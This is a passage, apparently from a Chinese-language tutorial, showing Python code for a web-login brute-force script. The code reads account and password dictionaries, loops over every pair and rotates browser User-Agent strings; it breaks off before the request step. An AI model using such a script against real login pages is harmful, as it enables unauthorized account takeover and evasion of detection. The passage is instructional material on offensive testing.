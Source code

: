>     """
>     with open(browers_json_path, 'r') as f:
>         header = json_load(f)
>     browsers = header['browsers']
>     # 将所有键的值取出来组成一个列表
>     user_agent_list = []
>     for key in browsers.keys():
>         for item in browsers[key]:
>             user_agent_list.append(item)
>     return user_agent_list
> ```

---

至此, 先决条件已经准备地差不多了, 可以开始写暴力破解的主体函数了

对于一个通用的暴力破解脚本, 需要准备 `接口URL` 和, `账密字典` 以及 `判断请求失败的关键字符串`, 这里额外增加了 `浏览器头 json 文件地址`, `关键信息匹配前后缀` 以及 `请求间隔时间` 来控制暴力破解速度

```python
def brute_force(
        socket: str, url_path: str, 
        browers_json_path: str,
        account_dict_path: str, password_dict_path: str,
        prefix: str, suffix: str, fail_keyword: str,
        sleep_second: float
    ) -> str:
    """暴力破解

    Args:
        socket: socket 地址, host-ip:port 的形式  
        url_path: url 路径, 为 url 中 port 后面的 /path 部分   
        browers_json_path: 浏览器头信息 json 文件路径(绝对路径)  
        account_dict_path: 账号字典路径(绝对路径)  
        password_dict_path: 密码字典路径(绝对路径)  
        prefix: 匹配的前缀
        suffix: 匹配的后缀  
        fail_keyword: 失败关键字, 用于判断是否登录成功  
        sleep_second: 延时秒数, 应当为一个正的浮点数, 比如 1/0.1 对应 1s/0.1s

    Returns:
        登录成功的账号密码
    """
    # 读取字典文件到列表
    account_list = read_dict_to_list(account_dict_path)
    account_num = len(account_list)
    password_list = read_dict_to_list(password_dict_path)
    password_num = len(password_list)
    # 最大需要尝试的次数
    max_try = account_num * password_num
    # 已尝试的次数
    try_num = 0

    user_agent_list = getUserAgentList(browers_json_path)
    # user_agent_list 长度
    user_agent_num = len(user_agent_list)

    # 遍历账号密码列表
    for account in account_list:
        for password in password_list:
            # 编码 password 中的 & 符号(使用 urlencode 会将 & 符号编码为 %26)
            password = password.replace("&", "%26")
            # 以 try_num % user_agent_num 为索引取 user_agent_list 中的 user_agent
            user_agent = user_agent_list[try_num % user_agent_num]
            # 发送请求并返回响应结果
```